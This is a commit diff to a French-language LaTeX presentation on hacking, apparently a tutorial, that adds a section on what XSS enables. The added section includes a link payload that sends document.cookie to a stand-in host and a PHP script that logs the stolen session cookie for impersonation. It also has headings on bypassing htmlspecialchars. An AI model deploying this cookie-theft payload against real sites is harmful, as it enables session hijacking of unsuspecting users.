

Before and after one commit to JustalK/Hacking, a LaTeX document (presentation.tex): two parts of pages 14 and 20 of 21 before the commit and two parts of pages 14 and 20 of 22 after it, joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
[10] For what XSS can be useful ?

```diff
--- a/presentation.tex
+++ b/presentation.tex
@@ -338,7 +338,38 @@ Pour expliquer cela, il est beaucoup plus intéressant de prendre un exemple. Im
 
 \newpage
 \section{XSS}
-\subsection{XSS Test}
+\subsection{Que cela permet-il de faire ?}
+A cette question, je vais encore répondre par un exemple. Je considère que c'est par la pratique que l'on apprend les fondamentaux. Imaginons que nous soyons sur un forum et un lien a été posté. Bien entendu ce lien a été trafiqué par une XSS pour obtenir le code HTML suivant :
+\vspace{0.2cm}\\
+\fbox{\parbox{\textwidth}{
+\begin{scriptsize}
+<a href="\#" onclick="document.location='http://www.xxx.com/hack/write.php?request='+document.cookie;">\\
+LIEN\\
+</a>
+\end{scriptsize}
+}}
+\vspace{0.2cm}
+
+Lorsque l'utilisateur cliquera dessus, ce lien le dirigera vers une page internet qui permet de récupérer le PHPSESSID par exemple qui est contenu dans un cookie. Avec cette information, il est alors possible d'usurper l'identité de l'utilisateur. Le script sur la page où arrivera l'utilisateur sera la suivante :
+\vspace{0.2cm}\\
+\fbox{\parbox{\textwidth}{
+\begin{scriptsize}
+<?php\\
+\hspace*{0.6cm}\$myfile = fopen("log.txt", "w") or die("Unable to open file!");\\
+\hspace*{0.6cm}fwrite(\$myfile,\$\_GET['request']);\\
+\hspace*{0.6cm}fclose(\$myfile);\\
+?> \\
+<script>\\
+\hspace*{0.6cm}document.location="http://www.google.com";\\
+</script>
+\end{scriptsize}
+}}
+\vspace{0.2cm}
+
+Ce qui permet alors d'obtenir toutes les informations du cookie dans un fichier texte puis de rediriger l'utilisateur vers le moteur de recherche google. Puis on peux ensuite lire tranquillement le document texte et avec des outils comme Cookie Manager+, on peux alors trafiquer ces propres cookies pour imiter celui de l'utilisateur. Ceci est le concept de base de la faille XSS mais il est possible de pousser le vice pour faire de nombreuses autres choses bien plus dangereuse et intéressante.
+
+
+\subsection{Test de l'existence d'une faille XSS de manière rapide}
 Pour testé rapidement si une faille XSS est possible à un endroit ou non, on peux utiliser des chaines de test telles que les suivantes :
 \vspace{0.2cm}\\
 \fbox{\parbox{\textwidth}{
@@ -391,7 +422,7 @@ On obtient alors le résultat suivant qui nous montre qu'une faille XSS est poss
 \includegraphics[width=0.5\textwidth]{14}
 \vspace{0.2cm}
 }}
-\subsection{XSS Trick - Bypass htmlspecialchars in some cases}
+\subsection{XSS - Bypass htmlspecialchars par erreurs avec la balise SVG}
 Dans certains cas, la fonction htmlspecialchars est inutile comme on peux le voir ci-dessous :
 \vspace{0.2cm}\\
 \fbox{\parbox{\textwidth}{
@@ -537,4 +568,6 @@ Et en utilisant la XSS, on bypass l'ensemble des fonctions :
 }}
 \vspace{0.2cm}
 
-\subsection{XSS - Bypass htmlspecialchars et htmlentities avec les guillemets graves}
+Il faut par conséquent utiliser la fonction strripos qui permet de filtrer l'ensemble des chaine utilisant le terme javascript.
+
+\subsection{XSS - Bypass htmlspecialchars et htmlentities avec les accents graves}
```
Also changed, not shown: 27.png (added), 28.png (added), presentation.pdf, presentation.tex (34 more changed lines), 4 other files.
